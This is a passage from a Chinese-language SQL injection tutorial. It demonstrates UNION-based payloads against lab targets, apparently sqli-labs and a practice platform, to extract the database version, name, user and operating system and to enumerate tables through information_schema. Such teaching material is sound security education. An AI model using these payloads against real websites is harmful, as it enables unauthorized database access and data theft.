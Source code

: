 结果显示2，3的位置会被前端回显。

![image-20220726142202091](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726142202091.png)

#### 查询数据库版本

```mysql
?id=-1 union select version()
```

#### 查询数据库名称

```mysql
?id=-1 union select database()
```

#### 查询数据库用户

若是root用户，则方便执行进一步的攻击行为，如利用SQL上传文件，redis未授权漏洞写入计划任务的利用方式也是需要root权限。

```mysql
?id=-1 union select user()
```

#### 查询操作系统

```mysql
?id=-1 union select @@version_compile_os
```

比如注入时，发现第2、3个位置会回显，在这个2个位置查询用户和操作系统：

```mysql
192.168.102.130:8888/Less-2/index.php?id=-1 union select 1,user(),@@version_compile_os,4
```

![image-20220726112454906](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726112454906.png)

以及数据库名称和版本名称：

```mysql
?id=-1 union select 1,database(),version(),4
```

![image-20220726143807180](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726143807180.png)

#### 查询指定数据库下的表名信息

根据刚才的信息收集，已知当前页面所操作的数据库名为mozhe_ Discuz_ stormGroup，或者直接使用database()表示，然后可以借助`information_ schema.tables`查询该数据库的所有表名：

```mysql
http://219.153.49.228:48354/new_list.php?id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()
```

![image-20220726145018620](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726145018620.png)

得到表名之后要确定哪一个表存储着用户数据，可以根据表名猜测或是逐表查看字段。
